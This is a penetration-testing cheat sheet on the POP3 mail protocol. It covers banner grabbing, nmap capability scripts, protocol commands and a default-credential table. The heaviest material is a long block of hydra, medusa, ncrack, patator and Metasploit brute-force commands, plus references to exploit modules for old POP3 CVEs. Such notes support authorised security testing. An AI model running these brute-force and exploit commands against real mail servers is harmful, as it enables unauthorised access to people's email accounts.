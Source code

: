 ```yaml
---
title: POP3 Pentesting Best Practices
categories: [pentesting protocols,pop3]
tags: [pentesting,pop3,best practicies]
comments: true
---
```


# POP3

> POP3 usually uses ports 110, 995
{: .prompt-tip }

# What is POP3?

POP3 stands for Post Office Protocol. As the name suggests, it allows you to use your email inbox like a post office – emails are downloaded onto your computer and removed from the mail server.

When accessing your emails using the POP3 protocol, a copy of the emails is created and stored locally on your computer. The originals are usually, but not always, removed from the mail server. In other words, emails are tied to the specific device. Once the email is downloaded onto one device (and removed from the mail server), it cannot be accessed by another email client or device.

Default ports: 110, 995(ssl)1

```bash
PORT     STATE SERVICE               VERSION
110/tcp  open  pop3                  Zimbra Collabration Suite pop3d
```

# POP3 Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
|:-----------------------------|
| port:110, 995 |

## Enumeration

## Banner Grabbing

```bash
telnet TargetIP TargetPort
nc -nv TargetIP TargetPort
Nmap: banner
MSF: auxiliary/scanner/pop3/pop3_version
openssl s_client -connect <IP>:995 -crlf -quiet
Nmap: pop3-ntlm-info
```

![Untitled](/assets/img/pitcures/pop3/pop3.png)

## Capabilities

```bash
#All are default scripts
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port 110 192.168.x.x
# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)  
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 192.168.x.x
```

![Untitled](/assets/img/pitcures/pop3/pop31.png)

![Untitled](/assets/img/pitcures/pop3/pop32.png)

The `pop3-ntlm-info` plugin will return some "**sensitive**" data (Windows versions).

## POP3 Commands

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## Capturing POP3 Packages

```bash
MSF: auxiliary/server/capture/pop3
```

## POP3 Credentials

## Authentication Checking (classical credentials)

| USER | PASS |
| --- | --- |
| admin | admin |
| root | root |
| root | toor |

## Brute Forcing

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -t 2 -L users.list -P passwords.list -M TargetIP.list -s TargetPort pop3
# Try to bruteforce POP3 accounts
Nmap: pop3-brute –script-args userdb=users.list,passdb=passwords.list
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP
MSF: auxiliary/scanner/pop3/pop3_login
medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIP.list -n TargetPort -M pop3
ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIP.list -p pop3:TargetPort -oA output
patator pop3_login host=TargetIP user=FILE1 password=FILE0 0=users.list 1=passwords.list -x ignore:fgrep=’incorrect password or account name’
```

# POP3 Vulnerabilities

```bash
#Seattle Lab Mail 5.5 [CVE-2003-0264]
MSF: exploit/windows/pop3/seattlelab_pass
Exploit-DB: 638.py, 643.c, 646.c
#Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]
MSF: exploit/linux/pop3/cyrus_pop3d_popsubfolders
```